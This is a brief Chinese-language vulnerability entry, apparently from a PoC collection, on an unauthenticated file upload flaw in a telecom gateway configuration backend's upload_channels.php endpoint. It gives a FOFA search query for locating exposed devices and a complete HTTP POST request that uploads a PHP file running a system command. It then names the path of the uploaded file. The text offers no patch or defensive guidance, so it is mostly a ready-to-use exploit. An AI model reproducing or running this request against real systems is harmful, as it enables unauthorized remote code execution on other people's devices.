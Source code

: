 ## 电信网关配置管理后台upload_channels.php接口存在文件上传漏洞

电信网关配置管理系统/bak_manager/upload_channels.php 接口存在文件上传漏洞,未经身份验证的远程攻击者可以利用文件上传漏洞获取系统权限。

## fofa

```javascript
body="a:link{text-decoration:none;color:orange;}"
```

## poc

```jinja2
POST /bak_manager/upload_channels.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.php"
Content-Type: text/plain

<?php system("uname -a");unlink(__FILE__);?>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20241108205412226](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411082054279.png)

文件路径：`/bak_manager/rce.php`